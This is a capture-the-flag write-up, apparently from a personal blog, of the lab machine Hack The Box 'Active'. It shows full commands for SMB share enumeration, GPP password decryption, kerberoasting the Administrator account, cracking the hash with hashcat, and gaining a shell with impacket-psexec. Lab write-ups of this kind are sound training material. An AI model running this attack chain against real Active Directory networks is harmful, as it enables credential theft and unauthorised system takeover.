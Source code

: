 ```yaml
---
title: "CTF Writeup: Active"
date: 2025-01-09
categories: [CTF, Writeup, Hackthebox]
tags: [Active Directory, HTB]
---
```


# Hack The Box - Active

## Description
Active is an easy machine that focusses on Windows Active Directory.<br>
This box is a good practive for the different techniques available for Active Directory pentesting.<br>

## Information Gathering

### Step 1: Enumeration
I start with running good olde nmap to enumerate the target machine.<br>

```bash
# sudo nmap -sC -sV -A -v -p- -Pn -T4 -oN NMAP/active_TCP 10.129.92.76
```
![alt text](/assets/screenshots/active/image.png)<br>

enum4linux can be used to gain some insight into the Active Directory environment.
```bash
# enum4linux -a -U 10.129.92.76
```
![alt text](/assets/screenshots/active/image-1.png)<br>
We have access to the Replication SMB share!

Let's double check with netexec.
```bash
# netexec smb 10.129.92.76 -u '' -p '' --shares
```
![alt text](/assets/screenshots/active/image-2.png)<br>

## Exploitation

### Step 2: Open SMB server
Now that we have access to the Replication share on the target machine Let's connect to this share using smbclient.

```bash
# smbclient "//10.129.92.76/Replication"
```
![alt text](/assets/screenshots/active/image-3.png)<br>

To make it easy for ourselves, we can now recursively download all the files we see here so we can search through them on our kali machine.<br>
```bash
# recurse ON
# mget *
```
![alt text](/assets/screenshots/active/image-4.png)<br>
Let's display all the folders and files we downloaded from the Replication smb share.<br>
![alt text](/assets/screenshots/active/image-5.png)<br>
Now check each file that seems interesting for us.<br>

I found a hash in the Groups.xml file.

Now we need to find a way to elevate privileges.<br>
![alt text](/assets/screenshots/active/image-6.png)<br>
This seems to be a GPP password. 
Whenever a new Group Policy Preference (GPP) is created, there's an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword<br>

To decrypt the password we can use cpp-decrypt.<br>
![alt text](/assets/screenshots/active/image-7.png)<br>

Found the credentials for the SVC_TGS account.<br>
```bash
# netexec smb 10.129.92.76 -u SVC_TGS -p '[Password]'
```
![alt text](/assets/screenshots/active/image-8.png)<br>

### Step 3: Bloodhound
Now that we have found valid credentials for a user account on the target Let's use these to enumerate the target and get information about the Active Directory environment.<br>
```bash
# netexec ldap 10.129.92.76 -u SVC_TGS -p '[Password]' --bloodhound --collection ALL --dns-server 10.129.92.76
```
![alt text](/assets/screenshots/active/image-9.png)<br>

If we upload this zip file we created with the previous command into bloodhound we can visualize the Active Directory structures.<br>
![alt text](/assets/screenshots/active/image-10.png)<br>

There are a lot of things bloodhound can show us. For this situation I'm mostly interested in the keberoasteble users.<br>
![alt text](/assets/screenshots/active/image-11.png)<br>
If we check the kerberoastable users we can see the Administrator!<br>

## Privilege Escalation

We know that the Administrator user is a kerberoastable account, so we can use the impacket-GetUserSPNs tool to perform the kerberoast attack and get us a hash for the administrator user.
```bash
# sudo impacket-GetUserSPNs -request -dc-ip 10.129.92.76 active.htb/SVC_TGS
```
![alt text](/assets/screenshots/active/image-12.png)<br>

Now that we have a hash for the Administrator user, Let's crack this hash. First we past it into a file  and second we load the file with a cracking tool such as john the ripper or hashcat.

Let's use hashcat in this situation and use the rockyou.txt file as the password file.
```bash
# sudo hashcat -m 13100 admin.hash /usr/share/wordlists/rockyou.txt --force
```
![alt text](/assets/screenshots/active/image-13.png)<br>
And we got the admin password!

To verify if these credentials work we can use netexec.
```bash
# netexec smb 10.129.92.76 -u Administrator -p '[password]'
```
![alt text](/assets/screenshots/active/image-14.png)<br>

Let's login to this the target using impacket-psexec.
```bash
# impacket-psexec Administrator:"[password]"@10.129.92.76
```
![alt text](/assets/screenshots/active/image-16.png)<br>
Now we can grab the user.txt and root.txt files.

![alt text](/assets/screenshots/active/image-17.png)<br>
NOICE!

## Conclusion
To summarize this machine. It was a machine with open SMB shares that we could misuse to browse the Replication share containing a xml file with a user hash. After we got access to a valid user account we could kerberoast another user with administrator privileges.<br>

## Lessons Learned
- Check the SMB service for any open shares.
- Identify privileged service accounts using kerberoasting.

